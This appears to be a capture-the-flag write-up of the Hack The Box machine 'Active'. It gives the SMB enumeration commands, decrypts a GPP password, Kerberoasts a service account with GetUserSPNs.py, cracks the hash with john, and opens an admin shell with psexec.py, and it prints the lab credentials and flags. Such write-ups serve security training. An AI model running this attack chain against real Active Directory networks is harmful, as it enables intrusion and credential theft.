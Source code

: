 ## Active
*Easy*

I did port scanning using rustscam
```
rustscan -a 10.10.10.100 -- -A
```
![](images/active-scan1.png)

![](images/active-scan2.png)

Also I used smbmap to find what I can access since ports 139 and 445 are active.

```
smbmap -H 10.10.10.100
```

![](images/active-smbmap.png)

I can access \Replication only. So to connect I used smbclient.
```
smbclient -N //10.10.10.100 /Replication --option='client min protocol=NT1'
```
I looked around and found something at \active.htb\Policies\\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\\

![](images/active-location.png)

I brought Groups.xml to my machine.

![](images/active-groups.png)

Here, I found the user, SVC_TGS, whose password hash is 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
In Microsoft all the passwords are encrypted with the same key, which is known publicly. I used the tool gpp-decrypt to crack the hash.

![](images.active-gpp.png)

So the password is 'GPPstillStandingStrong2k18'

Now again I used smbmap to see what I can access.

```
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```
![](images/active-smbmap1.png)

So we can read \Users. Again I connected using smbclient.

```
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18 --option='client min protocol=NT1'
```

![](images/active-smbclient1.png)

Thus, I got the user flag.
**86d67d8ba232bb6a254aa4d10159e983**


### Privilage Escalation

With active.htb\STV_TGS we can find the administrator password hash. [This](https://www.secureauth.com/labs/open-source-tools/impacket/) article was helpful.

So to get the admin password, I used the script called GetUserSPNs.py. The location is /usr/share/doc/python3-impact/expamles/GetUserSPNs.py

```
python3 /usr/share/doc/python3-impact/examples/GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```
![](images/active-hash.png)

I then cracked the hash using john. The administrator password is 'Ticketmaster1968'.
```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
```
![](images/active-admin.png)

I again used smbmap to see what I could access, this time as the administrator.
```
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```
![](images/active-smbmap2.png)

Thus we can access ADMIN$ and C$. Generally in windows machines, the root password is at C$, in the Desktop folder of the administrator.
```
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
```
![](images/active-root.png)

Thus, I got the root flag. **b5fc76d1d6b91d77b2fbf2d54d0f708b**

I wanted the shell also. So I found the suitable script, psexec.py in the same location as before.

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```
![](images/active-shell.png)

Thus I got the shell as the adminstrator :)

